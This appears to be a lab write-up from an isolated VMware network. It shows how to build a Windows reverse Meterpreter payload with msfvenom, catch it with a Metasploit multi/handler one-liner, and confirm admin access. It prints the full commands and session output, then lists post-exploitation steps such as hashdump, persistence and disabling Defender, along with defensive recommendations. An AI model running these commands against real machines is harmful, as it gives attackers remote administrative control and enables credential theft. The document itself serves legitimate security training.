


# Reverse Shell & Meterpreter Session Lab

Date: 2026-08-16
Attacker Machine: Parrot OS (10.10.1.13)
Target: Windows 11 (10.10.1.11)
Tools: MSFVenom, Metasploit, Docker, Revshells.com
Environment: VMware isolated lab network

---

## Objective
Generate a malicious Windows executable using
MSFVenom, deliver it to a target Windows 11
machine and catch a reverse Meterpreter shell
to gain remote access as Administrator.

---

## What is a Reverse Shell?
A reverse shell is a technique where the target
machine initiates a connection back to the attacker
machine. This bypasses firewall rules that block
incoming connections to the target.

The attack flow:
1. Attacker generates malicious payload
2. Payload delivered to target
3. Target executes payload
4. Target connects back to attacker
5. Attacker receives interactive shell

---

## Step 1 — Generate Payload Using MSFVenom

msfvenom -p windows/x64/meterpreter/reverse_tcp
LHOST=10.10.1.13 LPORT=4444 -f exe -o reverse.exe

### Output
No platform selected — choosing Windows
No arch selected — selecting x64
No encoder specified — outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

---

## Step 2 — Generate Listener Command Using Revshells.com

Used revshells.com to generate the exact
Metasploit listener command:

IP: 10.10.1.13
Port: 4444
Type: Windows Meterpreter Staged Reverse TCP x64

Listener command generated:
msfconsole -q -x "use multi/handler;
set payload windows/x64/meterpreter/reverse_tcp;
set lhost 10.10.1.13; set lport 4444; exploit"

---

## Step 3 — Start Listener and Catch Shell

msfconsole -q -x "use multi/handler;
set payload windows/x64/meterpreter/reverse_tcp;
set lhost 10.10.1.13; set lport 4444; exploit"

### Output
Using configured payload
windows/x64/meterpreter/reverse_tcp
lhost => 10.10.1.13
lport => 4444

Started reverse TCP handler on 10.10.1.13:4444
Sending stage (203846 bytes) to 10.10.1.11
Meterpreter session 1 opened
(10.10.1.13:4444 -> 10.10.1.11:42116)
at 2026-08-16 15:31:53 -0400

---

## Step 4 — Post Exploitation

meterpreter > getuid
Server username: Windows_11\Admin

---

## Attack Summary

| Step | Action | Result |
|------|--------|--------|
| 1 | MSFVenom payload created | reverse.exe (7168 bytes) |
| 2 | Listener configured | Port 4444 ready |
| 3 | Payload executed on target | Stage sent 203846 bytes |
| 4 | Meterpreter session opened | Session 1 active |
| 5 | getuid executed | Windows_11\Admin confirmed |

---

## Critical Findings

| Finding | Detail | Impact |
|---------|--------|--------|
| Admin access gained | Windows_11\Admin | CRITICAL |
| Meterpreter session | Full interactive shell | CRITICAL |
| No AV detection | Payload executed successfully | HIGH |
| Reverse connection | Bypassed firewall rules | HIGH |

---

## What Can Be Done With This Access

With a Meterpreter session as Admin:
- Dump password hashes (hashdump)
- Enable persistent backdoor
- Pivot to other machines on network
- Exfiltrate sensitive files
- Disable Windows Defender
- Take screenshots and keylog
- Escalate to SYSTEM privileges

---

## Lessons Learned

1. MSFVenom can generate payloads for any
   platform in seconds
2. Reverse shells bypass most firewall rules
   because connection originates from target
3. Admin execution of malicious file gives
   immediate privileged access
4. Staged payloads (windows/x64/meterpreter)
   are smaller and more evasive than stageless
5. User education is critical — payload requires
   user to execute the file

---

## Defensive Recommendations

- Implement application whitelisting
- Enable and configure Windows Defender properly
- Restrict execution of unknown executables
- Monitor outbound connections on unusual ports
- Implement email and web filtering
- Train users to never execute unknown files
- Enable PowerShell logging and monitoring
- Use EDR solutions for behavioral detection

---

## Tools Used
- MSFVenom (Metasploit Framework)
- Metasploit multi/handler
- Revshells.com
- Docker
- Parrot Security OS

---

## Next Steps
- Run hashdump to extract password hashes
- Establish persistence on target
- Pivot to other machines on the network
- Attempt privilege escalation to SYSTEM
